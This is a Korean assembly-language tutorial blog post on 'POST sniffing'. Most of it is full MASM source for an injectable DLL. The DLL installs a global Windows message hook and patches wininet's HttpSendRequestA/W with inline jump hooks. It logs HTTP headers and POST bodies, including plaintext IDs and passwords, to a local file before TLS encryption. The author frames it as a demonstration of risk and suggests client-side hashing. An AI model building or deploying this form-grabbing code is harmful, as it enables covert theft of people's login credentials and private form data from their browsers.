

## 3.6. post sniffing

이번엔 post 값을 중간에서 가로채는 예제를 만들어보겠다. 윈도우 api 중 post 값을 서버에 전송하는 api는 wininet.dll 의 [HttpSendRequest](https://msdn.microsoft.com/ko-kr/library/windows/desktop/aa384247(v=vs.85).aspx)가 있다. 이 api를 후킹하면 post값을 가로챌 수 있다.

```c
BOOL HttpSendRequest(
  _In_ HINTERNET hRequest,
  _In_ LPCTSTR   lpszHeaders,
  _In_ DWORD     dwHeadersLength,
  _In_ LPVOID    lpOptional,
  _In_ DWORD     dwOptionalLength
);
```

참고로 익스플로러에서는 동작하지만 크롬 파이어폭스에서는 동작하지 않는다. 익스플로러와 달리 범용프로그램이다보니 윈도우 api를 사용하지 않기 때문일 것이다.

**apihook.asm**

HttpSendRequest를 후킹해서 post값을 log.txt파일에 기록하는 소스이다. 텍스트파일에 기록하는 함수만 추가되었다.

```x86asm
.686
.model flat, stdcall
option casemap:none

include c:\masm32\include\windows.inc
include c:\masm32\include\user32.inc
include c:\masm32\include\kernel32.inc
include c:\masm32\include\winmm.inc

includelib c:\masm32\lib\user32.lib
includelib c:\masm32\lib\kernel32.lib
includelib c:\masm32\lib\winmm.lib

LogSecurity proto, lpBuffer:dword, bufLen:dword

LoadApiHook proto, lpszDll:dword, lpszProc:dword, lpTossProc:dword, lpTossJMP:dword
GetMsgProc proto, nCode:dword, wParam:dword, lParam:dword

MyHttpSendRequestA proto
MyHttpSendRequestW proto

.data
szWININET       db 'WININET.DLL',0
szHttpSendRequestA  db 'HttpSendRequestA',0
szHttpSendRequestW  db 'HttpSendRequestW',0

szLogPath       db "d:\log.txt",0
szStartLogging      db 'start logging..',13,10,0
CRLF            db 13,10

.data?
szVictim            byte 50 dup(?)
hCBTHook            dword ?
hGlobalModule       dword ?

szHeader            byte 512 dup(?)

.code
DllEntry proc hInstance:HINSTANCE, reason:DWORD, reserved1:DWORD
    .if reason==DLL_PROCESS_ATTACH
        .if hGlobalModule==0
            push hInstance
            pop hGlobalModule
        .endif
        invoke GetModuleHandle, addr szVictim
        .if eax!=0
            invoke MessageBox, 0, addr szVictim, addr szVictim, 0

            invoke lstrlen, addr szStartLogging
            invoke LogSecurity, addr szStartLogging, eax

            mov eax, offset MyHttpSendRequestAJMP
            invoke LoadApiHook, addr szWININET, addr szHttpSendRequestA, addr MyHttpSendRequestA, eax
            mov eax, offset MyHttpSendRequestWJMP
            invoke LoadApiHook, addr szWININET, addr szHttpSendRequestW, addr MyHttpSendRequestW, eax
        .endif
    .elseif reason==DLL_PROCESS_DETACH
        invoke GetModuleHandle, addr szVictim
    .endif
    mov eax, TRUE
    ret
DllEntry Endp

LogSecurity proc, lpBuffer:dword, bufLen:dword
    local hAppend:dword
    local dwPos:dword
    local dwByteWritten:dword

    invoke CreateFile, addr szLogPath,
        FILE_APPEND_DATA,
        FILE_SHARE_READ,
        NULL,
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL

    mov hAppend, eax

    .if hAppend != -1
        invoke SetFilePointer, hAppend, 0, NULL, FILE_END
        mov dwPos, eax
        invoke LockFile, hAppend, dwPos, 0, bufLen + sizeof CRLF, 0
        invoke WriteFile, hAppend, lpBuffer, bufLen, addr dwByteWritten, NULL
        invoke WriteFile, hAppend, addr CRLF, sizeof CRLF, addr dwByteWritten, NULL
        invoke UnlockFile, hAppend, dwPos, 0, bufLen + sizeof CRLF, 0
        invoke CloseHandle, hAppend
    .endif

    ret
LogSecurity endp

GetMsgProc proc, nCode:dword, wParam:dword, lParam:dword
    invoke CallNextHookEx, hCBTHook, nCode, wParam, lParam
    ret
GetMsgProc endp

ProtectMemCopy proc uses ecx, lpSrc:dword, lpDst:dword, count:dword, isExecute:dword
    local dwOrgProtect:dword
    local mbi:MEMORY_BASIC_INFORMATION

    invoke VirtualQuery, lpDst, addr mbi, sizeof mbi
    mov ecx, mbi.Protect
    and ecx, not PAGE_READONLY
    and ecx, not PAGE_EXECUTE_READ
    .if isExecute==0
        or ecx, PAGE_READWRITE
    .else
        or ecx, PAGE_EXECUTE_READWRITE
    .endif

    invoke VirtualProtect, lpDst, count, ecx, addr dwOrgProtect

    mov ecx, count
    mov esi, lpSrc
    mov edi, lpDst
    rep movsb

    invoke VirtualProtect, lpDst, count, dwOrgProtect, addr dwOrgProtect
    xor eax, eax

    ret
ProtectMemCopy endp

LoadApiHook proc uses esi edi ebx, lpszDll:dword, lpszProc:dword, lpTossProc:dword, lpTossJMP:dword
    local hModule:dword
    local lpOrgProc:dword

    local StubOrg[5]:byte
    local StubHook[5]:byte
    local OrgJmpStub[5]:byte

    invoke GetModuleHandle, lpszDll
    mov hModule, eax
    .if eax==0
        jmp LOAD_HOOK_EXIT
    .endif

    invoke GetProcAddress, hModule, lpszProc
    mov lpOrgProc, eax
    .if eax==0
        jmp LOAD_HOOK_EXIT
    .endif

    ; 원본 stub 백업
    invoke ProtectMemCopy, lpOrgProc, addr StubOrg, 5, 0

    ; Hook 함수로 점프하는 stub
    mov eax, lpTossProc
    sub eax, lpOrgProc
    sub eax, 5
    lea esi, StubHook
    mov byte ptr [esi], 0E9h ; E9 00 00 00 00
    mov dword ptr [esi + 1], eax

    ; hook stub으로 교체
    invoke ProtectMemCopy, addr StubHook, lpOrgProc, 5, 1

    ; 원본 stub 깔기
    invoke ProtectMemCopy, addr StubOrg, lpTossJMP, 5, 1

    ; 원본 함수로 점프하는 stub
    mov eax, lpOrgProc
    sub eax, lpTossJMP
    sub eax, 5
    lea esi, OrgJmpStub
    mov byte ptr [esi], 0E9h ; E9 00 00 00 00
    mov dword ptr [esi + 1], eax

    mov esi, lpTossJMP
    add esi, 5
    invoke ProtectMemCopy, addr OrgJmpStub, esi, 5, 1

LOAD_HOOK_EXIT:
    ret
LoadApiHook endp

; hook functions
MyHttpSendRequestA proc
    mov eax, esp
    push ebx
    mov ebx, eax
    .if dword ptr [ebx+20] > 0 ; arg5
        invoke lstrlenA, [ebx+8] ; arg2
        invoke LogSecurity, [ebx+8], eax
        invoke LogSecurity, [ebx+16], [ebx+20]
    .endif

    push [ebx+20]
    push [ebx+16]
    push [ebx+12]
    push [ebx+8]
    push [ebx+4]
    call MyHttpSendRequestAJMP
    pop ebx

    ret 20
MyHttpSendRequestA endp
MyHttpSendRequestAJMP:
    db 5 dup(90h) ;mov edi,edi / push ebp / mov ebp, esp
    db 5 dup(90h) ;jmp 0FFFFFFFFh (HttpSendRequestA address + 5)

MyHttpSendRequestW proc
    mov eax, esp
    push ebx
    mov ebx, eax
    .if dword ptr [ebx+20] > 0 ; arg5
        invoke WideCharToMultiByte, CP_ACP, 0, [ebx+8], -1, addr szHeader, 512, NULL, NULL
        invoke lstrlenA, addr szHeader
        invoke LogSecurity, addr szHeader, eax
        invoke LogSecurity, [ebx+16], [ebx+20]
    .endif

    push [ebx+20]
    push [ebx+16]
    push [ebx+12]
    push [ebx+8]
    push [ebx+4]
    call MyHttpSendRequestWJMP
    pop ebx

    ret 20
MyHttpSendRequestW endp
MyHttpSendRequestWJMP:
    db 5 dup(90h) ;mov edi,edi / push ebp / mov ebp, esp
    db 5 dup(90h) ;jmp 0FFFFFFFFh (HttpSendRequestW address + 5)

; export functions
SetVictim proc, lpszVictim:dword
    invoke lstrcpy, addr szVictim, lpszVictim

    ret
SetVictim endp

StartHook proc
    ;invoke SetWindowsHookEx, WH_CBT, addr GetMsgProc, hGlobalModule, NULL
    invoke SetWindowsHookEx, WH_GETMESSAGE, addr GetMsgProc, hGlobalModule, NULL
    mov hCBTHook, eax
    ret
StartHook endp

EndHook proc
    .if hCBTHook!=0
        invoke UnhookWindowsHookEx, hCBTHook
    .endif
    ret
EndHook endp


end DllEntry
```

이전예제와 같기때문에 LogSecurity 함수와 MyHttpSendRequestW 함수만 살펴보도록 하겠다.

```
LogSecurity proto, lpBuffer:dword, bufLen:dword
```

log.txt 파일에 문자열을 기록하는 함수이다. `lpBuffer` 문자열 주소, `bufLen` 문자열 수

LogSecurity 함수내용은 기본적으로 파일쓰기 windows api를 이용한거니 그냥 훑어보면 되겠다.

```x86asm
MyHttpSendRequestW proc
    mov eax, esp
    push ebx
    mov ebx, eax
```

`ebx`를 쓰기위해 `esp`를 `eax` 에 값을 복사하고 `ebx`를 백업한후에 `ebx`에 `eax`값을 복사한다.

```x86asm
invoke WideCharToMultiByte, CP_ACP, 0, [ebx+8], -1, addr szHeader, 512, NULL, NULL
```

HttpSendRequestW 이기때문에 문자열이 `wide string`형태이다. [WideCharToMultiByte](https://msdn.microsoft.com/ko-kr/library/windows/desktop/dd374130(v=vs.85).aspx)는 일반적인 바이트문자열로 변경하는 함수이다.

결과

**log.txt**파일을 열어보면

[](http://note.heyo.me/wp-content/uploads/2017/03/log.png)

이렇게 post값이 쌓여있는 것을 확인 할 수 있다.

적나라하게 아이디/패스워드가 그대로 노출된다. 네트워크로 넘기기전 **api단**에서의 값을 가져오는것이기 때문에 **https 여부와도 상관이 없다.** 상당히 위험할 수 있으며 이걸보면 확실히 클라이언트(js)단에서도 기본적인 해싱처리를 하는게 안전해보인다.

> [목차](http://note.heyo.me/?p=238) 이전글 [어셈블리어 튜토리얼 (12) speed hack](http://note.heyo.me/?p=1322)
